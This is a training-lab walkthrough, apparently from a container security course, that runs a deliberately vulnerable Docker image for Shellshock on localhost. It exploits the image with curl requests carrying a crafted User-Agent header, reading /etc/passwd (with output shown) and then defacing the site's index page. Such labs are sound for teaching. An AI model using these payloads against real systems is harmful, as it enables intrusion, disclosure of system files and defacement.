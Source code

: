 ## Vulnerable/Outdated Libraries - Shell-Shock (Bashdoor) 

###### Some containers that are often used and available on `dockerhub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock is one such vulnerability found in older versions of bash that haven't been updated.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)


##### Step 2:

* Run the image vulnerable to shell-shock by running `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    root@we45:~#
    ```


##### Step 3:

* Open the browser and go to `http://localhost:8080` to verify if the application is running.

![](img/shellshock-browser.png)


##### Step 4:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```


##### Step 6:

* Access `http://localhost:8080` on browser to confirm.

![](img/defaced.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

